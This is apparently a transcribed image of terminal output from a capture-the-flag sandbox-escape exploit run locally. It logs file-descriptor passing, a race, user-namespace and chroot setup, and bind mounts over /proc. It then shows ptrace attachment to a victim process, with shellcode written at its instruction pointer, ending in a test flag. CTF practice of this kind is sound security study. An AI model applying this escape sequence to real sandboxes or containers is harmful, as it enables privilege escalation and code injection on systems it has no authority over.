 ```
[sendfd]  Started sendfd
[sendfd]  Opening fd
[sendfd]  Creating socket
[sendfd]  Creating addr
[sendfd]  Binding
[sendfd]  Listening
[sendfd]  Accepting

[+] Running in sandbox #1: recvfd
[*] entering namespaces of pid 12253
[recvfd]  Started recvfd
[recvfd]  Creating socket
[recvfd]  Creating addr
[recvfd]  Connecting
[recvfd]  Preparing for receive
[recvfd]  Receiving fd
[sendfd]  Preparing fd message
[sendfd]  Sending fd
[sendfd]  Done
[recvfd]  Extracting fd
[recvfd]  Starting race

[+] Starting sandbox: escalate
[*] setgroups deny
[*] writing uid_map
[*] writing gid_map
[*] Creating chroot dir "/tmp/chroots/2"
[recvfd]  Race done
[*] Chrooting to "/tmp/chroots/2"
[*] changing group ids
[*] changing user ids
[recvfd]  Done
[*] starting init
[escalate]  Started escalate
[escalate]  Checking that we won the race
[escalate]  Reading current pid
[escalate]  Init pid: 12258
[escalate]  Creating new namespaces
[escalate]  Forking
[escalate]  Parent done
[escalate]  Child started
[escalate]  Reading current pid
[escalate]  Child pid: 12259
[escalate]  Creating dir "/tmp/oldproc_fHGEpuOpXK"
[escalate]  Creating bind mount "/tmp/oldproc_fHGEpuOpXK" -> "/proc"
[escalate]  Creating dir "/tmp/newproc_fHGEpuOpXK"
[escalate]  Creating bind mount "/proc" -> "/tmp/newproc_fHGEpuOpXK"
[escalate]  Creating dir "/proc/12258"
[escalate]  Creating dir "/proc/12258/ns"
[escalate]  Linking pid ns "/proc/12258/ns/pid" -> "/tmp/oldproc_fHGEpuOpXK/12259/ns/pid"
[escalate]  Creating fifo "/proc/12258/ns/uts"
[escalate]  Waiting for victim to join

[+] Running in sandbox #2: sleep
[*] entering namespaces of pid 12258
[escalate]  Attached to victim
[escalate]  Reading rip
[escalate]  Writing shellcode to 0x7fe1af29db1c
[escalate]  Detaching
[escalate]  Opening fifo
[shellcode]  FLAG: flag{local_test}
[shellcode]  DONE
[*] Closed connection to localhost port 1337
```